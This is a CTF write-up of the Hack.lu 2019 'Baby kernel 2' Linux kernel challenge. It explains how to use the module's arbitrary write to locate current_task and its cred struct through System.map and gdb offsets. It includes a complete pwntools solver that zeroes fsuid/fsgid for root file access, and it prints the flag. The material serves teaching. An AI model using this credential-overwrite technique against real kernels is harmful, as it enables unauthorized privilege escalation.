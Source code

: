 ```yaml
---
layout: post
title: Intro to Kernel Pwning - Hack.lu 2019
date: 2019-11-03 19:54
summary: A great beginner Linux kernel pwn from Hack.lu 2019
categories:  CTF kernel linuk kernelpwn hacklu hack.lu
---
```


## Intro Kernel Pwn: Baby kernel 2 from [Hack.lu](https://fluxfingersforfuture.fluxfingers.net/challenges) 2019 CTF

### Challenge Summary:

The challenge is the second step in a series of intro kernel pwning challenges starting from last years Hack.lu. This year we are given a kernel that when loaded presents us with a nice menu giving us the options to:
1. Read from a memory address
2. Write to a memory address
3. Get our UID
4. Read a file

![kernel menu](/images/baby_kernel_2-menu.png)

Given what information we have so far we can most likely assume we may need some way to gain elevated privilidges in order to read some file... maybe a flag file... ( •͡˘ _•͡˘). 

### Furthur Analysis:

After unpacking the init file system and dumping the `baby_kernel_2.ko` module into a decompiler, we can see we are given a free 8 byte write anywhere in kernel land via the write option presented to us by the menu.

To furthur understand and solve this challenge we must also recognize we have  System.map. The symbol table contains all of the kernel's symbol names and their addresses. Symbols provide names of important information in a binary(functions, variables, ...) and map these names to their location in memory. In this case, System.map provides us with the symbols for vmlinux. Most notably, `current_task`.

`current_task`(also reffered to as just `current`) is a pointer to the currently executing task [`task_struct`](http://140.120.7.21/LinuxRef/ProcMana/ProcessManaging.html). Each process is refrenced to by the kernel using its task struct. The task struct containts information about process like its creds, memory layout,... We are specifically interested in the current processes [`cred_struct`](https://github.com/torvalds/linux/blob/master/include/linux/cred.h). If we can overwrite the current processes's `cred_struct` to elevate its privilidges to root, we can read any file.

{% highlight c %}
struct task_struct {
    ...
	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
	...
{% endhighlight %}

{% highlight c %}
struct cred {
	...
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	...
{% endhighlight %}

Every `task_Struct` containts a pointer to the processes's `cred_struct`. In order to accomplish overwriting the current processes's creds with our 8 byte write, we need to know the offset of the `cred_struct` in the `task_struct`. Once we know the address of the `cred_struct` we can get the offset of the privilidge ID's and overwrite them. We can figure out the offsets using a little gdbfoo:

```
(gdb) ptype /o struct task_struct
...
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
...
```

```
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
```

Now that we know all the offsets, we know where to overwrite the creds of the current process. For this challenge, I only ended up needing to overwrite `fsuid` and `fsgid` in order to gain privs to read `flag`. Here is my complete solver:

{% highlight python %}
from pwn import *

conn = remote("babykernel2.forfuture.fluxfingers.net", 1337)

def read(addr):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('> ', str(hex(addr)))
    resp = conn.recvuntil("---").split()[22]
    return resp

def write(addr, val):
    conn.sendlineafter("> ",str(2))
    conn.sendlineafter("> ",str(hex(addr)))
    conn.sendlineafter("> ",str(val))
    return

def show_flag():
    conn.sendlineafter("> ",str(4))
    conn.sendlineafter("> ","flag")
    print(conn.recvuntil("}"))

#The pointer to current_task struct from System.map stored at current_task
current_task_ptr = 0xffffffff8183a040
current_task = read(current_task_ptr) #address of task_struct
log.info("current_task struct: 0x%s" % current_task)

"""
(gdb) ptype /o struct task_struct
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
"""

#Offset of cred_struct into task_struct obtained from gdb
cred_off = 1024 #ptype /o struct task 0x400
cred_struct_ptr = int(current_task, 16) + cred_off

#cred_struct location
cred_struct = int(read(cred_struct_ptr), 16)
log.info("cred_struct: 0x%x" % cred_struct)

"""
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
"""

#exploit part
log.info("Overwriting fsuid")
write(cred_struct+28, 0) #set fsuid = 0, 0 = root privilidges

log.info("Overwriting fsgid")
write(cred_struct+32, 0) #set fsgid = 0

show_flag()
{% endhighlight %}


## Summary

Overall, I thought this was a great intro kernel pwning challenge and I would highly reccomend it to anyone wanting to get their feet wet with kernel pwning. The keys to solving this challenge are knowing a bit about Linux kernel symbols(`current`) and some gdb skills to obtain offsets. 

If you are using Ghidra you must update to a version >= 9.1. For some reason Ghidra releases below 9.1 cannot handle kernel module decompilation.

Flag: flag{nicely_done_this_is_how_a_privesc_can_also_go}

Solver is on [github]()

### Creds
- [@Kallsyms](https://twitter.com/kallsyms)
- [@Hack.lu](https://twitter.com/hack_lu?lang=en)